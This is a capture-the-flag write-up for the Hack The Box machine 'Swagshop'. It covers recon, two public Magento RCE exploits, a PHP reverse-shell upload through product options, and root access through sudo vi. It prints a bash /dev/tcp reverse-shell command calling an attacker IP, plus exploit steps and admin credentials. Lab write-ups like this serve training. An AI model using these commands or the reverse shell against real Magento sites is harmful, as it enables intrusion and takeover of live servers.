


# Swagshop

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path recon

```sh
$ gobuster dir -u http://swagshop.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://swagshop.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
/includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
/empty                (Status: 200) [Size: 0]
/lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
/app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
/js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
/shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
/var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
/errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

- web recon

```sh
$ whatweb http://swagshop.htb
http://swagshop.htb [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

- html source code recon

```html
<address class="copyright">&copy; 2014 Magento Demo Store. All Rights Reserved.</address>
```

- finding: **Magento 2014** -> searchsploit


## Foothold

### 37977 RCE

- **EXP process**

```sh
$ python2 poc.py
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

- cred: `forme:forme`


### 37811 RCE

- **Magento ver. 1.9.0.0**
- [Post Auth Magento RCE for reverse shell (HTB Evironment SwagShop) (github.com)](https://gist.github.com/zhsh9/6ae916c6467f23cf9cc880eabfcc3e2c)
  - config the username & password
  - config the install_date in `http://swagshop.htb/app/etc/local.xml` -> Wed, 08 May 2019 07:23:09 +0000
- `python2 37811.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.39/1234 0>&1'"`


### File Upload

- Click into **Manage Products**



- Choose a product and add a new option (file upload)


- Upload a php reverse shell file when add a product into CART


- Based on path recon, visit `http://swagshop.htb/media/custom_options/quote/r/s/` and see


- click after nc -lvnp 1234 on local host, `http://swagshop.htb/media/custom_options/quote/r/s/5647c47908b0c805af6f92e5e1d3f92b.php`



## Privilege Escalation

- sudo -l -> vi usage

```sh
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

```console
touch empty    
sudo /usr/bin/vi /var/www/html/empty
```


## Exploit Chain

web+path recon -> RCE from admin page -> cred -> authenticated RCE -> www-data shell -> sudo -l -> vi -> :!/bin/bash -> root shell

